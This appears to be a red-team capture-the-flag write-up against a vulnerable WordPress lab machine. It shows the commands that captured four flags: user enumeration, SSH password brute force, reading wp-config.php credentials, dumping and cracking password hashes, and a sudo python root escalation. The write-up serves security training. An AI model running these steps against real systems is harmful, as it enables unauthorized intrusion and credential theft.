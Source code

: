 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

## Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

------
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method
First we enumerated the user accounts by exploiting the vulnerable WordPress site using WPScan
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
![wpscan](images/wpscan_user.png)

With the user accounts we can use Metasploit's SSH Login Check Scanner module and the rockyou wordlist to brute force the password
```
$ msfconsole
```
```
> search ssh_login
```
![ssh_login](images/search_ssh_login.png)

```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
![msfconsole](images/msfconsole_ssh_login.png)
```
> exit -y
```
After obtaining the password: `michael` we are able to SSH into `Target 1`
```
$ ssh michael@192.168.1.110
```
![SSH Michael](images/ssh_michael.png)
From here we used the follow command to locate `flag1`
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
![flag1](images/flag1z.png)

-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
Using the existing access we were able to locate `flag2` using the following command
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
![flag2](images/flag2.png)

-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1
  - 
#### Method
Using the existing access we were able to locate `flag3` by harvesting the WordPress database login credentials
```
$ cat /var/www/html/wordpress/wp-config.php
```
![wp_config](images/wp_config.png)
With these credentials we dumped the entire database using the following command
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
After dumping we ran a search for `flag3`
```
$ grep “flag3” dump
```
![flag4](images/flag3z.png)

> Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
Logging into the WordPress database we were able to obtain the unsalted hash for the user account `steven`
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
>  select * from wp_users;
```
![wp_users](images/wp_users.png)
```
> exit
```
```
$ exit
```
With the hash we created a `hash.txt` for use with John the Ripper
```
$ echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
$ john hash.txt
```
![john hash](images/john_hash.png)
After cracking the password we were able to login as `steven`
```
$ ssh steven@192.168.1.110
```
When checking `steven`'s privileges we noticed he has sudo access to `/usr/bin/python`
```
$ sudo -l
```
![steven_sudo](images/sudo.png)
With this we were able to escalate to root
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
Finally running the following command for `flag4`
```
$ find / -iname "flag4*" 2> /dev/null
```
![find_flag4](images/find_flag4.png)
```
$ cat /root/flag4.txt
```
![flag4](images/flag4.png)

-----


